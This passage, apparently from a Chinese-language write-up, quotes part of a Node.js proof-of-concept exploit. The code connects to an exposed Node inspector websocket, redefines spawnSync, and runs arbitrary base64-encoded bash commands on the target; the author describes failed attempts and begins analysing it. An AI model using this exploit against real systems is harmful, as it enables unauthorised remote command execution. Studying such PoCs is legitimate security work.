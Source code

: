 ```
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onmessage = (event) => {
// console.log(event)
  }

  socket.onclose = (event) => {
// console.log(event)
if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```  
  
运行命令是node poc.js [HOST] [PORT] [CMD]  
我用下面的命令尝试了几次都没有成功往/tmp/a中写入东西，于是开始着手分析poc代码。  
```
node poc.js 127.0.0.1 13611 "pwd >/tmp/a"cat /tmp/a
```  
  